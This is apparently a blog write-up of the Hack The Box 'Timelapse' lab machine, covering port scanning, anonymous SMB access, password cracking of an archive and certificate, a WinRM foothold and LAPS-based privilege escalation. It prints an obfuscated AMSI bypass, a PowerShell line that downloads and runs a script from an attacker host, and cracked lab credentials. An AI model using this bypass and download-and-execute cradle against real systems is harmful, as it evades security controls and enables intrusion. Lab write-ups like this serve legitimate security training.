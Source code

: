 ```yaml
---
title: Timelapse
tags:
    - Active Directory
    - "Easy Machines"
category:
    - "Hack The Box Writeup"
date: 2022-04-05
description: "Hack The Box Machine - Timelapse writeup"
author: "Tejas"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false 
disableHLJS: false
hideSummary: true
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "https://pbs.twimg.com/media/FOi9TvrXoAUm3zY?format=jpg&name=medium" # image path/url
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


## Enumeration

### Port Scan

```
# Nmap 7.92 scan initiated Mon Apr  4 13:02:28 2022 as: nmap -sC -sV -sS -vvv -oN nmap.txt -p- timelapse.htb
Nmap scan report for timelapse.htb (10.129.128.174)
Host is up, received echo-reply ttl 127 (0.30s latency).
Scanned at 2022-04-04 13:02:29 IST for 560s
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-04-04 15:40:06Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?      syn-ack ttl 127
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2022-04-04T15:41:40+00:00; +7h59m58s from scanner time.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
<SNIPED>
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58823/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

<SNIPED>
```

Found no web application, we can see from the nmap scan that the domain name is timelapse.htb and probably this is dc0.

Let’s try to figure out what we can do.

After some time looking at nmap scan, I was wondering why not SMB anonymous. Lets try it 

## SMB ANONYMOUS

![Untitled](images/Untitled.png)

Let’s enumerate them

![Untitled](images/Untitled%201.png)

Let’s download them.

![Untitled](images/Untitled%202.png)

winrm_backup.zip was password encrypted, after doing password cracking using hashcat and JTR to recover encryption cipher. We find `supremelegacy`

The file found inside the archive is .pfx file which can be used to authenticate with winrm or PS-remoting

When I ran strings command against the pfx file, I find the username and email as the following:

```
legacyy@timelapse.htb
Legacyy0
```

## Foothold

It seems we can extract keys from pfx file like this way shown in [article](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file).  Now to follow in accordance to the article, by running first command I’m asked password for importing. So let’s crack hash of pfx file and lets find the password using jtr.

![Untitled](images/Untitled%203.png)

`thuglegacy` is the password.

![Untitled](images/Untitled%204.png)

![Untitled](images/Untitled%205.png)

Found the following stuff in PS-History file

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### AMSI BYPASS

The following payload bypassed AMSI, allowing us to download and import module BloodHound.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.8/SharpHound.ps1')
```

## Privilege Escalation

Now we have found svc_deploy credentials, who is part of LAPS_READER group. I can read password of Admin to Privilege escalate.

I used the following command to get LAPS password

```powershell
crackmapexec ldap 10.129.128.174 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' –kdcHost 10.129.128.174 -M laps
```

![Untitled](images/Untitled%206.png)

Flag for root is found in TRX desktop